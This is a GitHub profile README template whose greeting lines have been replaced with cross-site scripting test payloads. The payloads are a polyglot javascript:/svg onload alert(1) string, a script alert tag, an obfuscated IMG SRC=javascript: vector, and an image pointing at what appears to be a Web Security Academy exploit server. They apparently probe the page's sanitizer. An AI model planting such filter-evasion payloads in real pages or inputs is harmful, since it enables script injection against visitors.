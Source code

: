 - 👋 Hi,%2522;  <!-- />I’m @AITidriss</u>
- <img class="emoji" alt="wave" height="20" width="20" src="javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>">\<script>alert(1)</script>%00
- <img src=exploit-acf61f171e1bb0cec00a41d5010100c0.web-security-academy.net/testest></a>
- <IMG \SRC\=javascript:alert('XSS')>
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...



<!---
AITidriss/AITidriss is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

